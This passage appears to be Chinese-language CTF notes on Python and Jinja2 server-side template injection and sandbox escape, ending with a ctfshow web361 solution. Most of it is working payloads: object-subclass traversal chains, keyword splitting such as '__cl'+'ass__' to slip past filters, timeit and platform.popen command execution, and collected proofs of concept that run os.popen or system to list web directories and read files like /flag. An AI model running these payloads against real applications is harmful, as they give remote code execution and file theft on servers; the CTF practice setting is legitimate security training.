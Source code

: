 使用session

poc {{session['cla'+'ss'].bases[0].bases[0].bases[0].bases[0].subclasses()[118]}}

多个bases[0]是因为一直在向上找object类。使用mro就会很方便

```
{{session['__cla'+'ss__'].__mro__[12]}}
```

或者

```
request['__cl'+'ass__'].__mro__[12]}}
```

4.timeit姿势

可以学习一下 2017 swpu-ctf的一道沙盒python题，

这里不详说了，博大精深，我只意会一二。

```
import timeit
timeit.timeit("__import__('os').system('dir')",number=1)

import platform
print platform.popen('dir').read()
```

5.收藏的一些poc

```
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls  /var/www/html").read()' )

object.__subclasses__()[59].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ls')

{{request['__cl'+'ass__'].__base__.__base__.__base__['__subcla'+'sses__']()[60]['__in'+'it__']['__'+'glo'+'bal'+'s__']['__bu'+'iltins__']['ev'+'al']('__im'+'port__("os").po'+'pen("ca"+"t a.php").re'+'ad()')}}
```

# ctfshow

## web361

```
<div class="center-content error">
        <h1>Hello</h1>
        <h3>None</h3>
    </div> 
```

```
?name={{"".__class__.__mro__[1].__subclasses__()[132].__init__.__globals__[%27popen%27]("cat%20/flag").read()}}
```
